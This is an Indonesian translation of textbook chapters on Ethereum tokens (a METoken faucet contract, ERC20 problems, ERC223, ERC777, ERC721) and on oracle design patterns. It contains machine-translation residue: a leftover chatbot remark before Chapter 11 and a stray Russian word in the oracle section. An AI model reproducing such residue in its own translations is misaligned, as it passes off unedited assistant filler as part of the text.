Untuk contoh ini, kita akan membuat salinan dari direktori proyek `truffle` (kita akan menamakannya `METoken_METFaucet`), menginisialisasi `truffle` dan `npm`, menginstal dependensi OpenZeppelin, dan menyalin kontrak `METoken.sol`. Lihat contoh pertama kita, di “Meluncurkan Token ERC20 Kita Sendiri” di halaman 231, untuk instruksi terperinci.

Kontrak *faucet* baru kita, `METFaucet.sol`, akan terlihat seperti Contoh 10-2.

**Contoh 10-2. METFaucet.sol: Sebuah faucet untuk METoken**

```solidity
1 // Versi kompiler Solidity yang digunakan untuk menulis program ini
2 pragma solidity ^0.4.19;
3
4 import 'openzeppelin-solidity/contracts/token/ERC20/StandardToken.sol';
5
6 // Sebuah faucet untuk token ERC20 MET
7 contract METFaucet {
8
9   StandardToken public METoken;
10  address public METOwner;
11
12  // Konstruktor METFaucet, berikan alamat kontrak METoken dan
13  // alamat pemilik yang akan kita setujui untuk transferFrom
14  constructor(address _METoken, address _METOwner) public {
15    // Inisialisasi METoken dari alamat yang diberikan
16    METoken = StandardToken(_METoken);
17    METOwner = _METOwner;
18  }
19
20  function withdraw(uint withdraw_amount) public {
21    // Batasi jumlah penarikan hingga 10 MET
22    require(withdraw_amount <= 1000);
23
24    // Gunakan fungsi transferFrom dari METoken
25    METoken.transferFrom(METOwner, msg.sender, withdraw_amount);
26  }
27
28  // TOLAK setiap ether yang masuk
29  function () public payable {
30    revert();
31  }
32 }
```

Kami telah membuat beberapa perubahan pada contoh `Faucet` dasar. Karena `METFaucet` akan menggunakan fungsi `transferFrom` di `METoken`, ia akan membutuhkan dua variabel tambahan. Satu akan menampung alamat kontrak `METoken` yang diterapkan. Yang lain akan menampung alamat pemilik MET, yang akan menyetujui penarikan dari *faucet*. Kontrak `METFaucet` akan memanggil `METoken.transferFrom` dan menginstruksikannya untuk memindahkan MET dari pemilik ke alamat dari mana permintaan penarikan *faucet* berasal.

Kami mendeklarasikan dua variabel ini di sini:

```solidity
StandardToken public METoken;
address public METOwner;
```

Karena *faucet* kita perlu diinisialisasi dengan alamat yang benar untuk `METoken` dan `METOwner`, kita perlu mendeklarasikan konstruktor kustom:

```solidity
// Konstruktor METFaucet - berikan alamat kontrak METoken dan
// alamat pemilik yang akan kita setujui untuk transferFrom
constructor(address _METoken, address _METOwner) public {
  // Inisialisasi METoken dari alamat yang diberikan
  METoken = StandardToken(_METoken);
  METOwner = _METOwner;
}
```

Perubahan berikutnya adalah pada fungsi `withdraw`. Alih-alih memanggil `transfer`, `METFaucet` menggunakan fungsi `transferFrom` di `METoken` dan meminta `METoken` untuk mentransfer MET ke penerima *faucet*:

```solidity
// Gunakan fungsi transferFrom dari METoken
METoken.transferFrom(METOwner, msg.sender, withdraw_amount);
```

Akhirnya, karena *faucet* kita tidak lagi mengirim ether, kita mungkin harus mencegah siapa pun mengirim ether ke `METFaucet`, karena kita tidak ingin ether tersebut terjebak. Kita mengubah fungsi *fallback* `payable` untuk menolak ether yang masuk, menggunakan fungsi `revert` untuk membatalkan setiap pembayaran yang masuk:

```solidity
// TOLAK setiap ether yang masuk
function () public payable { revert(); }
```

Sekarang setelah kode `METFaucet.sol` kita siap, kita perlu memodifikasi skrip migrasi untuk menerapkannya. Skrip migrasi ini akan sedikit lebih kompleks, karena `METFaucet` bergantung pada alamat `METoken`. Kita akan menggunakan *promise* JavaScript untuk menerapkan kedua kontrak secara berurutan. Buat `2_deploy_contracts.js` sebagai berikut:

```javascript
var METoken = artifacts.require("METoken");
var METFaucet = artifacts.require("METFaucet");

var owner = web3.eth.accounts[0];

module.exports = function(deployer) {
  // Terapkan kontrak METoken terlebih dahulu
  deployer.deploy(METoken, {from: owner}).then(function() {
    // Kemudian terapkan METFaucet dan berikan alamat METoken dan
    // alamat pemilik semua MET yang akan menyetujui METFaucet
    return deployer.deploy(METFaucet, METoken.address, owner);
  });
}
```

Sekarang, kita bisa menguji semuanya di konsol Truffle. Pertama, kita menggunakan `migrate` untuk menerapkan kontrak. Ketika `METoken` diterapkan, ia akan mengalokasikan semua MET ke akun yang membuatnya, `web3.eth.accounts[0]`. Kemudian, kita memanggil fungsi `approve` di `METoken` untuk menyetujui `METFaucet` mengirim hingga 1.000 MET atas nama `web3.eth.accounts[0]`. Terakhir, untuk menguji *faucet* kita, kita memanggil `METFaucet.withdraw` dari `web3.eth.accounts[1]` dan mencoba menarik 10 MET. Berikut adalah perintah konsolnya:

```bash
$ truffle console --network ganache
truffle(ganache)> migrate
Using network 'ganache'.
[...]
METoken: 0xf204a4ef082f5c04bb89f7d5e6568b796096735a
[...]
METFaucet: 0x75c35c980c0d37ef46df04d31a140b65503c0eed
Saving artifacts...

truffle(ganache)> METoken.deployed().then(instance => { instance.approve(METFaucet.address, 100000) })

truffle(ganache)> METoken.deployed().then(instance => { instance.balanceOf(web3.eth.accounts[1]).then(console.log) })
truffle(ganache)> BigNumber { s: 1, e: 0, c: [ 0 ] }

truffle(ganache)> METFaucet.deployed().then(instance => { instance.withdraw(1000, {from:web3.eth.accounts[1]}) } )

truffle(ganache)> METoken.deployed().then(instance => { instance.balanceOf(web3.eth.accounts[1]).then(console.log) })
truffle(ganache)> BigNumber { s: 1, e: 3, c: [ 1000 ] }
```

Seperti yang dapat Anda lihat dari hasilnya, kita dapat menggunakan alur kerja `approve & transferFrom` untuk memberi wewenang pada satu kontrak untuk mentransfer token yang didefinisikan di token lain. Jika digunakan dengan benar, token ERC20 dapat digunakan oleh EOA dan kontrak lain.

Namun, beban untuk mengelola token ERC20 dengan benar didorong ke antarmuka pengguna. Jika seorang pengguna secara salah mencoba mentransfer token ERC20 ke alamat kontrak dan kontrak tersebut tidak dilengkapi untuk menerima token ERC20, token tersebut akan hilang.

### Masalah dengan Token ERC20

Adopsi standar token ERC20 benar-benar meledak. Ribuan token telah diluncurkan, baik untuk bereksperimen dengan kemampuan baru maupun untuk mengumpulkan dana dalam berbagai lelang “*crowdfund*” dan ICO. Namun, ada beberapa potensi jebakan, seperti yang kita lihat dengan masalah transfer token ke alamat kontrak.

Salah satu masalah yang kurang jelas dengan token ERC20 adalah bahwa mereka mengekspos perbedaan halus antara token dan ether itu sendiri. Di mana ether ditransfer oleh transaksi yang memiliki alamat penerima sebagai tujuannya, transfer token terjadi di dalam keadaan kontrak token tertentu dan memiliki **kontrak token sebagai tujuannya**, bukan alamat penerima. Kontrak token melacak saldo dan mengeluarkan *event*. Dalam transfer token, **tidak ada transaksi yang benar-benar dikirim ke penerima token**. Sebaliknya, alamat penerima ditambahkan ke *map* di dalam kontrak token itu sendiri. Transaksi yang mengirim ether ke sebuah alamat mengubah keadaan sebuah alamat. Transaksi yang mentransfer token ke sebuah alamat hanya mengubah keadaan kontrak token, bukan keadaan alamat penerima. Bahkan dompet yang memiliki dukungan untuk token ERC20 tidak akan menyadari saldo token kecuali pengguna secara eksplisit menambahkan kontrak token tertentu untuk "diamati". Beberapa dompet mengamati kontrak token paling populer untuk mendeteksi saldo yang dipegang oleh alamat yang mereka kontrol, tetapi itu terbatas pada sebagian kecil dari kontrak ERC20 yang ada.

Faktanya, tidak mungkin seorang pengguna ingin melacak semua saldo di semua kemungkinan kontrak token ERC20. Banyak token ERC20 lebih seperti spam email daripada token yang dapat digunakan. Mereka secara otomatis membuat saldo untuk akun yang memiliki aktivitas ether, untuk menarik pengguna. Jika Anda memiliki alamat Ethereum dengan riwayat aktivitas yang panjang, terutama jika dibuat pada pra-penjualan, Anda akan menemukannya penuh dengan token "sampah" yang muncul entah dari mana. Tentu saja, alamat tersebut tidak benar-benar penuh dengan token; kontrak tokenlah yang memiliki alamat Anda di dalamnya. Anda hanya melihat saldo ini jika kontrak token ini sedang diamati oleh penjelajah blok atau dompet yang Anda gunakan untuk melihat alamat Anda.

Token tidak berperilaku sama seperti ether. Ether dikirim dengan fungsi `send` dan diterima oleh fungsi `payable` apa pun di dalam kontrak atau alamat milik eksternal mana pun. Token dikirim menggunakan fungsi `transfer` atau `approve & transferFrom` yang hanya ada di kontrak ERC20, dan tidak (setidaknya di ERC20) memicu fungsi `payable` apa pun di kontrak penerima. Token dimaksudkan untuk berfungsi seperti mata uang kripto seperti ether, tetapi mereka datang dengan perbedaan tertentu yang merusak ilusi itu.

Pertimbangkan masalah lain. Untuk mengirim ether atau menggunakan kontrak Ethereum apa pun, Anda memerlukan ether untuk membayar gas. **Untuk mengirim token, Anda juga memerlukan ether.** Anda tidak dapat membayar gas transaksi dengan token dan kontrak token tidak dapat membayar gas untuk Anda. Ini mungkin berubah suatu saat di masa depan yang jauh, tetapi sementara itu ini dapat menyebabkan pengalaman pengguna yang agak aneh. Misalnya, katakanlah Anda menggunakan bursa atau ShapeShift untuk mengubah beberapa bitcoin menjadi sebuah token. Anda "menerima" token di dompet yang melacak kontrak token itu dan menunjukkan saldo Anda. Terlihat sama seperti mata uang kripto lain yang Anda miliki di dompet Anda. Namun, coba kirim token itu, dan dompet Anda akan memberi tahu Anda bahwa Anda memerlukan ether untuk melakukannya. Anda mungkin bingung—lagipula, Anda tidak memerlukan ether untuk menerima token. Mungkin Anda tidak punya ether. Mungkin Anda bahkan tidak tahu token itu adalah token ERC20 di Ethereum; mungkin Anda pikir itu adalah mata uang kripto dengan blockchainnya sendiri. Ilusi baru saja pecah.

Beberapa masalah ini spesifik untuk token ERC20. Yang lain adalah masalah yang lebih umum yang berkaitan dengan abstraksi dan batasan antarmuka di dalam Ethereum. Beberapa dapat diselesaikan dengan mengubah antarmuka token, sementara yang lain mungkin memerlukan perubahan pada struktur fundamental di dalam Ethereum (seperti perbedaan antara EOA dan kontrak, dan antara transaksi dan pesan). Beberapa mungkin tidak "dapat diselesaikan" secara persis dan mungkin memerlukan desain antarmuka pengguna untuk menyembunyikan nuansa dan membuat pengalaman pengguna konsisten terlepas dari perbedaan yang mendasarinya.

Di bagian berikutnya kita akan melihat berbagai proposal yang mencoba mengatasi beberapa masalah ini.

### ERC223: Standar Antarmuka Kontrak Token yang Diusulkan

Proposal ERC223 mencoba menyelesaikan masalah transfer token yang tidak disengaja ke sebuah kontrak (yang mungkin mendukung atau tidak mendukung token) dengan mendeteksi apakah alamat tujuan adalah kontrak atau bukan. ERC223 mengharuskan kontrak yang dirancang untuk menerima token mengimplementasikan fungsi bernama `tokenFallback`. Jika tujuan transfer adalah kontrak dan kontrak tersebut tidak memiliki dukungan untuk token (yaitu, tidak mengimplementasikan `tokenFallback`), transfer gagal.

Untuk mendeteksi apakah alamat tujuan adalah kontrak, implementasi referensi ERC223 menggunakan segmen kecil *bytecode inline* dengan cara yang agak kreatif:

```solidity
function isContract(address _addr) private view returns (bool is_contract) {
  uint length;
  assembly {
    // ambil ukuran kode di alamat target; ini membutuhkan assembly
    length := extcodesize(_addr)
  }
  return (length>0);
}
```

Spesifikasi antarmuka kontrak ERC223 adalah:

```solidity
interface ERC223Token {
  uint public totalSupply;
  function balanceOf(address who) public view returns (uint);
  function name() public view returns (string _name);
  function symbol() public view returns (string _symbol);
  function decimals() public view returns (uint8 _decimals);
  function totalSupply() public view returns (uint256 _supply);
  function transfer(address to, uint value) public returns (bool ok);
  function transfer(address to, uint value, bytes data) public returns (bool ok);
  function transfer(address to, uint value, bytes data, string custom_fallback) public returns (bool ok);

  event Transfer(address indexed from, address indexed to, uint value, bytes indexed data);
}
```

ERC223 tidak banyak diimplementasikan, dan ada beberapa perdebatan di utas diskusi ERC tentang kompatibilitas mundur dan pertukaran antara mengimplementasikan perubahan di tingkat antarmuka kontrak versus antarmuka pengguna. Perdebatan terus berlanjut.

### ERC777: Standar Antarmuka Kontrak Token yang Diusulkan

Proposal lain untuk standar kontrak token yang lebih baik adalah ERC777. Proposal ini memiliki beberapa tujuan, termasuk:

  * Menawarkan antarmuka yang kompatibel dengan ERC20
  * Mentransfer token menggunakan fungsi `send`, mirip dengan transfer ether
  * Kompatibel dengan ERC820 untuk pendaftaran kontrak token
  * Memungkinkan kontrak dan alamat untuk mengontrol token mana yang mereka kirim melalui fungsi `tokensToSend` yang dipanggil sebelum pengiriman
  * Memungkinkan kontrak dan alamat untuk diberi tahu tentang penerimaan token dengan memanggil fungsi `tokensReceived` di penerima, dan untuk mengurangi kemungkinan token terkunci di dalam kontrak dengan mengharuskan kontrak menyediakan fungsi `tokensReceived`
  * Memungkinkan kontrak yang ada untuk menggunakan kontrak proksi untuk fungsi `tokensToSend` dan `tokensReceived`
  * Beroperasi dengan cara yang sama baik saat mengirim ke kontrak atau EOA
  * Menyediakan *event* spesifik untuk pencetakan (*minting*) dan pembakaran (*burning*) token
  * Memungkinkan operator (pihak ketiga tepercaya, dimaksudkan untuk menjadi kontrak terverifikasi) untuk memindahkan token atas nama pemegang token
  * Menyediakan metadata pada transaksi transfer token di bidang `userData` dan `operatorData`

Diskusi yang sedang berlangsung tentang ERC777 dapat ditemukan di GitHub.

Spesifikasi antarmuka kontrak ERC777 adalah:

```solidity
interface ERC777Token {
  function name() external view returns (string memory);
  function symbol() external view returns (string memory);
  function totalSupply() external view returns (uint256);
  function granularity() external view returns (uint256);
  function balanceOf(address owner) external view returns (uint256);
  function send(address to, uint256 amount, bytes calldata userData) external;
  function authorizeOperator(address operator) external;
  function revokeOperator(address operator) external;
  function isOperatorFor(address operator, address tokenHolder) external view returns (bool);
  function operatorSend(address from, address to, uint256 amount, bytes calldata userData, bytes calldata operatorData) external;

  event Sent(address indexed operator, address indexed from, address indexed to, uint256 amount, bytes userData, bytes operatorData);
  event Minted(address indexed operator, address indexed to, uint256 amount, bytes operatorData);
  event Burned(address indexed operator, address indexed from, uint256 amount, bytes userData, bytes operatorData);
  event AuthorizedOperator(address indexed operator, address indexed tokenHolder);
  event RevokedOperator(address indexed operator, address indexed tokenHolder);
}
```

#### Kait (Hooks) ERC777

Spesifikasi kait pengirim token ERC777 adalah:

```solidity
interface ERC777TokensSender {
  function tokensToSend(address operator, address from, address to, uint256 value, bytes calldata userData, bytes calldata operatorData) external;
}
```

Implementasi antarmuka ini diperlukan untuk setiap alamat yang ingin diberi tahu, menangani, atau mencegah pendebitan token. Alamat yang kontraknya mengimplementasikan antarmuka ini harus didaftarkan melalui ERC820, baik kontrak mengimplementasikan antarmuka untuk dirinya sendiri atau untuk alamat lain.

Spesifikasi kait penerima token ERC777 adalah:

```solidity
interface ERC777TokensRecipient {
  function tokensReceived(address operator, address from, address to, uint256 amount, bytes calldata userData, bytes calldata operatorData) external;
}
```

Implementasi antarmuka ini diperlukan untuk setiap alamat yang ingin diberi tahu, menangani, atau menolak penerimaan token. Logika dan persyaratan yang sama berlaku untuk penerima token seperti pada antarmuka pengirim token, dengan batasan tambahan bahwa kontrak penerima harus mengimplementasikan antarmuka ini untuk mencegah penguncian token. Jika kontrak penerima tidak mendaftarkan alamat yang mengimplementasikan antarmuka ini, transfer token akan gagal.

Aspek penting adalah bahwa hanya satu pengirim token dan satu penerima token yang dapat didaftarkan per alamat. Oleh karena itu, untuk setiap transfer token ERC777, fungsi kait yang sama dipanggil saat pendebitan dan penerimaan setiap transfer token ERC777. Token spesifik dapat diidentifikasi dalam fungsi-fungsi ini menggunakan pengirim pesan, yang merupakan alamat kontrak token spesifik, untuk menangani kasus penggunaan tertentu.

Di sisi lain, kait pengirim dan penerima token yang sama dapat didaftarkan untuk beberapa alamat dan kait dapat membedakan siapa pengirim dan penerima yang dituju menggunakan parameter `from` dan `to`.

Implementasi referensi ERC777 ditautkan dalam proposal. ERC777 bergantung pada proposal paralel untuk kontrak registri, yang ditentukan dalam ERC820. Beberapa perdebatan tentang ERC777 adalah tentang kerumitan mengadopsi dua perubahan besar sekaligus: standar token baru dan standar registri. Diskusi terus berlanjut.

### ERC721: Standar Token Non-Fungible (Akta)

Semua standar token yang telah kita lihat sejauh ini adalah untuk token fungible, yang berarti unit-unit dari sebuah token dapat dipertukarkan. Standar token ERC20 hanya melacak saldo akhir dari setiap akun dan tidak (secara eksplisit) melacak asal-usul dari setiap token.

Proposal ERC721 adalah untuk standar token **non-fungible**, juga dikenal sebagai **akta (*deeds*)**.

Dari Kamus Oxford:

> **akta:** Dokumen hukum yang ditandatangani dan diserahkan, terutama yang berkaitan dengan kepemilikan properti atau hak hukum.

Penggunaan kata “akta” dimaksudkan untuk mencerminkan bagian “kepemilikan properti”, meskipun ini tidak diakui sebagai “dokumen hukum” di yurisdiksi mana pun—belum. Kemungkinan besar di masa depan, kepemilikan hukum berdasarkan tanda tangan digital di platform blockchain akan diakui secara hukum.

Token non-fungible melacak kepemilikan atas suatu barang unik. Barang yang dimiliki bisa berupa barang digital, seperti barang dalam game atau barang koleksi digital; atau barang tersebut bisa berupa barang fisik yang kepemilikannya dilacak oleh sebuah token, seperti rumah, mobil, atau karya seni. Akta juga dapat mewakili hal-hal dengan nilai negatif, seperti pinjaman (utang), hak gadai, kemudahan, dll. Standar ERC721 tidak memberlakukan batasan atau ekspektasi pada sifat barang yang kepemilikannya dilacak oleh sebuah akta dan hanya mensyaratkan bahwa ia dapat diidentifikasi secara unik, yang dalam kasus standar ini dicapai dengan pengenal 256-bit.

Detail standar dan diskusi dilacak di dua lokasi GitHub yang berbeda:

  * [Proposal awal](https://github.com/ethereum/EIPs/issues/721)
  * [Diskusi lanjutan](https://github.com/ethereum/EIPs/pull/841)
  
Tentu, ini adalah terjemahan untuk bab berikutnya.

---

# BAB 11
## Oracle

Dalam bab ini kita akan membahas **oracle**, yaitu sistem yang dapat menyediakan sumber data eksternal ke kontrak pintar Ethereum. Istilah “oracle” berasal dari mitologi Yunani, di mana ia merujuk pada seseorang yang berkomunikasi dengan para dewa dan dapat melihat visi masa depan. Dalam konteks blockchain, oracle adalah sistem yang dapat menjawab pertanyaan yang bersifat eksternal dari Ethereum. Idealnya, oracle adalah sistem yang **nirkepercayaan (*trustless*)**, artinya tidak perlu dipercaya karena beroperasi berdasarkan prinsip-prinsip terdesentralisasi.

### Mengapa Oracle Dibutuhkan

Komponen kunci dari platform Ethereum adalah Ethereum Virtual Machine, dengan kemampuannya untuk mengeksekusi program dan memperbarui keadaan Ethereum, yang dibatasi oleh aturan konsensus, pada setiap *node* di jaringan terdesentralisasi. Untuk menjaga konsensus, eksekusi EVM harus sepenuhnya **deterministik** dan hanya didasarkan pada konteks bersama dari keadaan Ethereum dan transaksi yang ditandatangani. Hal ini memiliki dua konsekuensi yang sangat penting: yang pertama adalah **tidak boleh ada sumber keacakan intrinsik** untuk digunakan oleh EVM dan kontrak pintar; yang kedua adalah **data ekstrinsik hanya dapat dimasukkan sebagai muatan data dari sebuah transaksi.**

Mari kita urai kedua konsekuensi tersebut lebih lanjut. Untuk memahami larangan adanya fungsi acak sejati di EVM untuk menyediakan keacakan bagi kontrak pintar, pertimbangkan efeknya pada upaya untuk mencapai konsensus setelah eksekusi fungsi semacam itu: *node* A akan mengeksekusi perintah dan menyimpan angka 3 atas nama kontrak pintar di penyimpanannya, sementara *node* B, yang mengeksekusi kontrak pintar yang sama, akan menyimpan angka 7. Dengan demikian, *node* A dan B akan sampai pada kesimpulan yang berbeda tentang keadaan akhir yang seharusnya, meskipun telah menjalankan kode yang persis sama dalam konteks yang sama. Memang, bisa jadi keadaan akhir yang berbeda akan tercapai setiap kali kontrak pintar dievaluasi. Dengan demikian, tidak akan ada cara bagi jaringan, dengan banyak *node* yang berjalan secara independen di seluruh dunia, untuk mencapai konsensus terdesentralisasi tentang keadaan akhir yang seharusnya. Dalam praktiknya, akan menjadi jauh lebih buruk dari contoh ini dengan sangat cepat, karena efek berantai, termasuk transfer ether, akan menumpuk secara eksponensial.

Perhatikan bahwa fungsi pseudorandom, seperti fungsi hash yang aman secara kriptografis (yang bersifat deterministik dan oleh karena itu dapat, dan memang, menjadi bagian dari EVM), tidak cukup untuk banyak aplikasi. Ambil contoh permainan judi yang menyimulasikan lemparan koin untuk menyelesaikan pembayaran taruhan, yang perlu mengacak kepala atau ekor—seorang penambang dapat memperoleh keuntungan dengan memainkan permainan tersebut dan hanya memasukkan transaksi mereka ke dalam blok di mana mereka akan menang. Jadi bagaimana kita mengatasi masalah ini? Nah, semua *node* dapat menyetujui isi dari transaksi yang ditandatangani, sehingga informasi ekstrinsik, termasuk sumber keacakan, informasi harga, prakiraan cuaca, dll., dapat dimasukkan sebagai bagian data dari transaksi yang dikirim ke jaringan. Namun, data semacam itu просто tidak dapat dipercaya, karena berasal dari sumber yang tidak dapat diverifikasi. Dengan demikian, kita hanya menunda masalahnya. Kita menggunakan oracle untuk mencoba menyelesaikan masalah-masalah ini, yang akan kita bahas secara rinci di sisa bab ini.

### Kasus Penggunaan dan Contoh Oracle

Oracle, idealnya, menyediakan cara nirkepercayaan (atau setidaknya mendekati nirkepercayaan) untuk mendapatkan informasi ekstrinsik (yaitu, "dunia nyata" atau *off-chain*), seperti hasil pertandingan sepak bola, harga emas, atau angka yang benar-benar acak, ke platform Ethereum untuk digunakan oleh kontrak pintar. Mereka juga dapat digunakan untuk menyampaikan data secara aman ke *frontend* DApp secara langsung.

Oleh karena itu, oracle dapat dianggap sebagai mekanisme untuk menjembatani kesenjangan antara dunia *off-chain* dan kontrak pintar. Mengizinkan kontrak pintar untuk menegakkan hubungan kontraktual berdasarkan peristiwa dan data dunia nyata memperluas cakupan mereka secara dramatis. Namun, ini juga dapat menimbulkan risiko eksternal terhadap model keamanan Ethereum. Pertimbangkan kontrak "surat wasiat pintar" yang mendistribusikan aset ketika seseorang meninggal. Ini adalah sesuatu yang sering dibahas dalam ruang kontrak pintar, dan menyoroti risiko dari oracle yang dipercaya. Jika jumlah warisan yang dikendalikan oleh kontrak semacam itu cukup tinggi, insentif untuk meretas oracle dan memicu distribusi aset sebelum pemiliknya meninggal menjadi sangat tinggi.

Perhatikan bahwa beberapa oracle menyediakan data yang khusus untuk sumber data pribadi tertentu, seperti sertifikat akademik atau KTP pemerintah. Sumber data semacam itu, seperti universitas atau departemen pemerintah, sepenuhnya dipercaya, dan kebenaran data bersifat subjektif (kebenaran hanya ditentukan dengan merujuk pada otoritas sumber). Oleh karena itu, data semacam itu tidak dapat disediakan secara nirkepercayaan—yaitu, tanpa mempercayai sumber—karena tidak ada kebenaran objektif yang dapat diverifikasi secara independen. Dengan demikian, kami menyertakan sumber data ini dalam definisi kami tentang apa yang dianggap sebagai "oracle" karena mereka juga menyediakan jembatan data untuk kontrak pintar. Data yang mereka berikan umumnya berbentuk **atestasi**, seperti paspor atau catatan prestasi. Atestasi akan menjadi bagian besar dari kesuksesan platform blockchain di masa depan, terutama terkait dengan masalah verifikasi identitas atau reputasi, jadi penting untuk mengeksplorasi bagaimana mereka dapat dilayani oleh platform blockchain.

Beberapa contoh data lain yang mungkin disediakan oleh oracle meliputi:

  * Angka acak/entropi dari sumber fisik seperti proses kuantum/termal: mis., untuk memilih pemenang secara adil dalam kontrak pintar lotre
  * Pemicu parametrik yang diindeks ke bahaya alam: mis., pemicu kontrak pintar obligasi bencana, seperti pengukuran skala Richter untuk obligasi gempa bumi
  * Data nilai tukar: mis., untuk penentuan patokan (*pegging*) mata uang kripto ke mata uang fiat yang akurat
  * Data pasar modal: mis., harga keranjang aset/sekuritas yang ditokenisasi
  * Data referensi patokan: mis., menggabungkan suku bunga ke dalam derivatif keuangan pintar
  * Data statis/pseudostatis: pengenal keamanan, kode negara, kode mata uang, dll.
  * Data waktu dan interval: untuk pemicu peristiwa yang didasarkan pada pengukuran waktu yang tepat
  * Data cuaca: mis., perhitungan premi asuransi berdasarkan prakiraan cuaca
  * Peristiwa politik: untuk penyelesaian pasar prediksi
  * Peristiwa olahraga: untuk penyelesaian pasar prediksi dan kontrak olahraga fantasi
  * Data geolokasi: mis., seperti yang digunakan dalam pelacakan rantai pasokan
  * Verifikasi kerusakan: untuk kontrak asuransi
  * Peristiwa yang terjadi di blockchain lain: fungsi interoperabilitas
  * Harga pasar Ether: mis., untuk oracle harga gas fiat
  * Statistik penerbangan: mis., seperti yang digunakan oleh kelompok dan klub untuk pengumpulan tiket pesawat

Di bagian berikut, kita akan memeriksa beberapa cara oracle dapat diimplementasikan, termasuk pola oracle dasar, oracle komputasi, oracle terdesentralisasi, dan implementasi klien oracle di Solidity.

### Pola Desain Oracle

Semua oracle, menurut definisi, menyediakan beberapa fungsi utama. Ini termasuk kemampuan untuk:

  * Mengumpulkan data dari sumber *off-chain*.
  * Mentransfer data secara *on-chain* dengan pesan yang ditandatangani.
  * Membuat data tersedia dengan menempatkannya di penyimpanan kontrak pintar.

Setelah data tersedia di penyimpanan kontrak pintar, data tersebut dapat diakses oleh kontrak pintar lain melalui panggilan pesan yang memanggil fungsi "ambil" dari kontrak pintar oracle; data tersebut juga dapat diakses oleh *node* Ethereum atau klien yang terhubung ke jaringan secara langsung dengan "melihat ke dalam" penyimpanan oracle.

Tiga cara utama untuk mengatur oracle dapat dikategorikan sebagai **permintaan-respons (*request-response*)**, **publikasi-langganan (*publish-subscribe*)**, dan **baca-langsung (*immediate-read*)**.

Dimulai dari yang paling sederhana, oracle **baca-langsung** adalah oracle yang menyediakan data yang hanya dibutuhkan untuk keputusan mendadak, seperti "Apa alamat untuk `ethereumbook.info`?" atau "Apakah orang ini berusia di atas 18 tahun?". Mereka yang ingin menanyakan data semacam ini cenderung melakukannya secara “*just-in-time*”; pencarian dilakukan saat informasi dibutuhkan dan mungkin tidak akan pernah lagi. Contoh oracle semacam itu termasuk yang menyimpan data tentang atau dikeluarkan oleh organisasi, seperti sertifikat akademik, kode telepon, keanggotaan institusional, pengenal bandara, ID berdaulat mandiri, dll. Jenis oracle ini menyimpan data sekali di penyimpanan kontraknya, dari mana kontrak pintar lain dapat mencarinya menggunakan panggilan permintaan ke kontrak oracle. Data tersebut dapat diperbarui. Data di penyimpanan oracle juga tersedia untuk pencarian langsung oleh aplikasi yang mendukung blockchain (yaitu, terhubung ke klien Ethereum) tanpa harus melalui kerepotan dan menanggung biaya gas dari penerbitan transaksi. Sebuah toko yang ingin memeriksa usia pelanggan yang ingin membeli alkohol dapat menggunakan oracle dengan cara ini. Jenis oracle ini menarik bagi organisasi atau perusahaan yang mungkin sebaliknya harus menjalankan dan memelihara server untuk menjawab permintaan data semacam itu. Perhatikan bahwa data yang disimpan oleh oracle kemungkinan bukan data mentah yang dilayani oleh oracle, mis., karena alasan efisiensi atau privasi. Sebuah universitas mungkin mendirikan oracle untuk sertifikat prestasi akademik mahasiswa masa lalu. Namun, menyimpan detail lengkap dari sertifikat (yang bisa mencapai halaman mata kuliah yang diambil dan nilai yang dicapai) akan berlebihan. Sebaliknya, hash dari sertifikat sudah cukup. Demikian pula, pemerintah mungkin ingin menempatkan KTP warga negara ke platform Ethereum, di mana jelas detail yang disertakan perlu dijaga kerahasiaannya. Sekali lagi, melakukan hashing pada data (lebih hati-hati, di pohon Merkle dengan *salt*) dan hanya menyimpan hash akar di penyimpanan kontrak pintar akan menjadi cara yang efisien untuk mengatur layanan semacam itu.

Pengaturan berikutnya adalah **publikasi-langganan**, di mana oracle yang secara efektif menyediakan layanan siaran untuk data yang diperkirakan akan berubah (mungkin baik secara teratur maupun sering) baik di-*polling* oleh kontrak pintar secara *on-chain*, atau diawasi oleh *daemon off-chain* untuk pembaruan. Kategori ini memiliki pola yang mirip dengan umpan RSS, WebSub, dan sejenisnya, di mana oracle diperbarui dengan informasi baru dan sebuah bendera menandakan bahwa data baru tersedia bagi mereka yang menganggap diri mereka "berlangganan". Pihak yang berkepentingan harus baik melakukan *polling* pada oracle untuk memeriksa apakah informasi terbaru telah berubah, atau mendengarkan pembaruan pada kontrak oracle dan bertindak saat terjadi. Contohnya termasuk umpan harga, informasi cuaca, statistik ekonomi atau sosial, data lalu lintas, dll. *Polling* sangat tidak efisien di dunia server web, tetapi tidak demikian dalam konteks *peer-to-peer* platform blockchain: klien Ethereum harus mengikuti semua perubahan keadaan, termasuk perubahan pada penyimpanan kontrak, jadi *polling* untuk perubahan data adalah panggilan lokal ke klien yang disinkronkan. Log *event* Ethereum membuatnya sangat mudah bagi aplikasi untuk mengawasi pembaruan oracle, sehingga pola ini bahkan dalam beberapa hal dapat dianggap sebagai layanan "dorong" (*push*). Namun, jika *polling* dilakukan dari kontrak pintar, yang mungkin diperlukan untuk beberapa aplikasi terdesentralisasi (mis., di mana insentif aktivasi tidak memungkinkan), maka pengeluaran gas yang signifikan dapat terjadi.

Kategori **permintaan-respons** adalah yang paling rumit: ini adalah di mana ruang data terlalu besar untuk disimpan dalam kontrak pintar dan pengguna diharapkan hanya membutuhkan sebagian kecil dari keseluruhan dataset pada satu waktu. Ini juga merupakan model yang berlaku untuk bisnis penyedia data. Secara praktis, oracle semacam itu mungkin diimplementasikan sebagai sistem kontrak pintar *on-chain* dan infrastruktur *off-chain* yang digunakan untuk memantau permintaan serta mengambil dan mengembalikan data. Permintaan data dari aplikasi terdesentralisasi biasanya merupakan proses asinkron yang melibatkan sejumlah langkah. Dalam pola ini, pertama, EOA bertransaksi dengan aplikasi terdesentralisasi, menghasilkan interaksi dengan fungsi yang didefinisikan dalam kontrak pintar oracle. Fungsi ini memulai permintaan ke oracle, dengan argumen terkait yang merinci data yang diminta selain informasi tambahan yang mungkin mencakup fungsi *callback* dan parameter penjadwalan. Setelah transaksi ini divalidasi, permintaan oracle dapat diamati sebagai *event* EVM yang dipancarkan oleh kontrak oracle, atau sebagai perubahan keadaan; argumen dapat diambil dan digunakan untuk melakukan kueri sebenarnya dari sumber data *off-chain*. Oracle mungkin juga memerlukan pembayaran untuk memproses permintaan, pembayaran gas untuk *callback*, dan izin untuk mengakses data yang diminta. Akhirnya, data yang dihasilkan ditandatangani oleh pemilik oracle, membuktikan validitas data pada waktu tertentu, dan dikirimkan dalam sebuah transaksi ke aplikasi terdesentralisasi yang membuat permintaan—baik secara langsung maupun melalui kontrak oracle. Tergantung pada parameter penjadwalan, oracle dapat 